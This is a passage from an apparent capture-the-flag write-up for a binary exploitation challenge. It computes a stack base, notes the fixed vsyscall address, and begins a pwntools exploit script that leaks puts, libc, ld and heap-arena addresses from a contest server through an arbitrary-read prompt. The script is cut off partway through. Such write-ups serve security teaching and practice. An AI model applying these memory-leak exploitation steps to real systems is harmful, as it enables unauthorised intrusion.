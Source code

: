 the following yielded the correct stack base
```py
stack_leak = (stack_leak & 0xfff) ^ stack_leak + 0x2000 - 0x21000
```
## vsyscall 
`vsyscall` is a page that is mapped to a static memory address by the kernel and that is just `0xffffffffff600000`

## Full Exploit
piecing up all of the information we know now, we could write out a full exploit that would give us the flag!

```py {filename=exploit.py linenos=table}
#!/usr/bin/env python3

from pwn import *

exe = './chall_patched'
libc_path = './libc.so.6'
ld_path = './ld-2.35.so'

elf = context.binary = ELF(exe, checksec=True)
libc = ELF(libc_path, checksec=False)
ld = ELF(ld_path, checksec=False)

host = 'challs.pwnoh.io'
port = 13375
r = remote(host, port, level='DEBUG')
## r = process(exe, level='DEBUG')

gs = '''

'''

context.log_level = 'debug'

## r = gdb.debug(exe, gdbscript=gs)

puts_got = elf.got['puts']
r.recvuntil(b'Where to, captain?\n')

r.sendline(str(puts_got).encode())
puts_leak = int(r.recvline().strip().decode().split('gathered ')[1].split(' gold')[0], 10)
libc.address = puts_leak - libc.sym['puts']

elf_base = 0x400000
libc_base = libc.address

print(f"libc_base = {libc_base} => in hex: {hex(libc_base)}")

ld_pos = 0x404010
r.recvuntil(b'Where to, captain?\n')

r.sendline(str(ld_pos).encode())
ld_base = int(r.recvline().strip().decode().split('gathered ')[1].split(' gold')[0], 10)
ld_base = ld_base - (0x7f4ca5623d30 - 0x7f4ca560e000)

print(f"ld_base = {ld_base} => in hex: {hex(ld_base)}")

arena_top = libc_base + (0x7f30c7285ce0 - 0x7f30c706b000)
r.recvuntil(b'Where to, captain?\n')

r.sendline(str(arena_top).encode())
```